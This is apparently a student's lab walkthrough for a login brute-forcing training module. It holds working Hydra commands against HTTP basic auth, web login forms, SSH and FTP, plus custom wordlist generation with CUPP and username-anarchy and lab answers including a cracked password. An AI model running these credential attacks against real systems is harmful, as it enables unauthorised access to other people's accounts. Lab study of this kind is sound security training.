 # Login Brute Forcing

## Basic HTTP Auth brute Forcing

### Default PWs - Hydra

**Using the technique you learned in this section, try attacking the IP shown above. What are the credentials used?**

`hydra -C /usr/share/seclists/Passwords/Default-Credentials/ftp-betterdefaultpasslist.txt 94.237.51.157 -s 39675 http-get /`

<figure><img src=".gitbook/assets/image (244).png" alt=""><figcaption></figcaption></figure>

### Username Brute Force - Hydra

**Try running the same exercise on the question from the previous section, to learn how to brute force for users.**

`hydra -L /usr/share/seclists/Usernames/Names/names.txt -P /home/zihuatanejo/Desktop/rockyou.txt -u -f 94.237.51.157 -s 39675 http-get /`

* answer is the same as for the previous one...

## Web Forms Brute Forcing

### Login Form Attacks

**Using what you learned in this section, try attacking the '/login.php' page to identify the password for the 'admin' user. Once you login, you should find a flag. Submit the flag as the answer.**

`hydra -l admin -P /home/zihuatanejo/Desktop/rockyou.txt -f 94.237.51.157 -s 39675 http-post-form "/login.php:username=^USER^&password=^PASS^:F=<form name='login'"`

<figure><img src=".gitbook/assets/image (245).png" alt=""><figcaption></figcaption></figure>

<figure><img src=".gitbook/assets/image (246).png" alt=""><figcaption></figcaption></figure>

## Service Auth Attacks

### Service Auth Brute Forcing

**Using what you learned in this section, try to brute force the SSH login of the user "b.gates" in the target server shown above. Then try to SSH into the server. You should find a flag in the home dir. What is the content of the flag?**

* create custom wordlist william.txt from previous section...
  * CUPP tool
    * `cupp i`
* add modifications to created wordlist...
  * `sed -ri ‘/^.{,7}$/d’ william.txt # remove shorter than 8`&#x20;
  * ``$sed -ri ‘/[!-/:-@[-`{-~]+/!d’ william.txt # remove no specialchars``&#x20;
  * `$sed -ri ‘/[0–9]+/!d’ william.txt # remove no numbers`

<figure><img src=".gitbook/assets/image (247).png" alt=""><figcaption></figcaption></figure>

* run Hydra against SSH
  * `hydra -l b.gates -P william.txt -u -f ssh://94.237.50.84:40002`
    * _username: b.gates_
    * _password: wordlist william.txt_
    * _service: ssh_
  * we obtained PW
* `ssh b.gates@94.237.50.84 -p40002`
  * PW: from hydra attack...
  * `cat flag.txt`

**Once you ssh in, try brute forcing the FTP login for the other user. You should find another flag in their home directory. What is the flag?**

<figure><img src=".gitbook/assets/image (248).png" alt=""><figcaption></figcaption></figure>

* there is port 21 (FTP) running...
* let´s brute-force FTP login for the m.gates...
  * (cd /home && ls -> dir m.gates)
*   hydra -l m.gates -P rockyou-10.txt ftp://127.0.0.1

    <figure><img src=".gitbook/assets/image (249).png" alt=""><figcaption></figcaption></figure>


* obtain FLAG
  * `ftp 127.0.0.1`
  * `name: m.gates`
  * `pw: computer`
  * `ls -> flag.txt`
  * `get flag.txt`
  * `exit`
  * `ls`
  * `cat flag.txt`

<figure><img src=".gitbook/assets/image (250).png" alt=""><figcaption></figcaption></figure>

## Skills Assessment

### Skills Assessment - Website

**When you try to access the IP shown above, you will not have authorization to access it. Brute force the authentication and retrieve the flag.**

`hydra -C /usr/share/seclists/Passwords/Default-Credentials/ftp-betterdefaultpasslist.txt 94.237.51.157 -s 37248 http-get /`

<figure><img src=".gitbook/assets/image (251).png" alt=""><figcaption></figcaption></figure>

* login to obtain flag

**Once you access the login page, you are tasked to brute force your way into this page as well. What is the flag hidden inside?**

`hydra -l user -P /home/zihuatanejo/Desktop/rockyou.txt -f 94.237.51.157 -s 37248 http-post-form "/admin_login.php:user=^USER^&pass=^PASS^:F=<form name='log-in'"`

<figure><img src=".gitbook/assets/image (252).png" alt=""><figcaption></figcaption></figure>

* login to obtain flag

### Skills Assessment - Service Login

**As you now have the name of an employee from the previous skills assessment question, try to gather basic information about them, and generate a custom password wordlist that meets the password policy. Also use 'usernameGenerator' to generate potential usernames for the employee. Finally, try to brute force the SSH server shown above to get the flag.**

* generate list connected with Harry
  * `cupp -i`&#x20;
    * Harry&#x20;
    * special-characters-end-of-words= Y&#x20;
    * 1337 = Y&#x20;
* generate username list
  * `git clone` [`https://github.com/urbanadventurer/username-anarchy.git`](https://github.com/urbanadventurer/username-anarchy.git)
  * `cd username-anarchy/`
  * `./username-anarchy Harry Potter > user_harry.txt`
*   bruteforce SSH

    * `hydra -L user_harry.txt -P harry.txt -u -f ssh://94.237.54.197:51766 -t 4`

    <figure><img src=".gitbook/assets/image (253).png" alt=""><figcaption></figcaption></figure>


* SSH login
  * `ssh harry.potter@94.237.54.197 -p51766`
    * `cat flag.txt`

**Once you are in, you should find that another user exists in server. Try to brute force their login, and get their flag.**

<figure><img src=".gitbook/assets/image (254).png" alt=""><figcaption></figcaption></figure>

* there is a user g.potter
* netstat -antp | grep -i list
  * to see other services running...

<figure><img src=".gitbook/assets/image (255).png" alt=""><figcaption></figcaption></figure>

* bruteforce FTP login

<figure><img src=".gitbook/assets/image (256).png" alt=""><figcaption></figcaption></figure>

* obtain FLAG
  * `ftp 127.0.0.1`
  * `name: g.potter`
  * `PW`&#x20;
  * `ls -> flag.txt`
  * `get flag.txt`
  * `exit`
  * `ls`
  * `cat flag.txt`
